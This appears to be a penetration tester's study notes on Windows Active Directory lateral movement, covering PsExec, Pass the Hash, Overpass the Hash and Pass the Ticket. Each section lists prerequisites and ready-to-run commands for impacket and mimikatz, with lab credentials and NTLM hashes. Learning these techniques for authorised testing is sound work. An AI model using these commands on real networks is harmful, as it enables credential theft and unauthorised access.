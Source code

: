 ## PsExec
- Prerequisite:
	- Credentials of a user who is in Administrators local group of target machine
	- ADMIN$ share is available
	- File and Printer Sharing is turned on
	- Shell access
- Obtains:
	- Shell access to adjacent target machine as target user
- `./PsExec64.exe -i \\FILES04 -u corp\jen -p Nexus123! cmd`

## Pass the Hash
- Prerequisite:
	- NTLM hash of a local administrator user on the target machine
- Obtains:
	- Shell access to adjacent target machine as target user (authentication method: NTLM)
- From Kali:
	`/usr/bin/impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73`
- Note: To use this method on a target machine sitting behind a network, we need to pivot and proxy through the initial compromised host

## Overpass the Hash
- Prerequisite:
	- NTLM hash of a domain user
	- ~~GUI access~~ ?
	- Shell access
- Obtains:
	- access to anything that rely on Kerberos authentication (e.g. PsExec) (authentication method: Kerberos)
	- Ticket Granting Service (TGS) 
		- (technically obtains Ticket Granting Ticket (TGT) first which in turn gets us TGS)
- Mimikatz: (requires GUI access?)
	`sekurlsa::pth /user:jen /domain:corp.com /ntlm:369def79d8372408bf6e93364cc93075 /run:powershell`
- Can also use Rubeus: (no GUI access required) https://juggernaut-sec.com/over-pass-the-hash-attacks/

## Pass the Ticket
- Prerequisite:
	- Debug privileges
	- Shell access
	- A user with access to the target resource has a session on this machine
- Obtains:
	- Access to a target resource
- Mimikatz:
	`privilege::debug`
	`sekurlsa::tickets /export`
	Identify the extracted ticket(s) in the format of `user@cifs-targetresource.kirbi`:
	`dir *.kirbi`
	Inject ticket with mimikatz:
	`kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi` (filename of the extracted ticket)
	Check that the ticket is in our own session:
	`klist`
	Access the target resource normally.
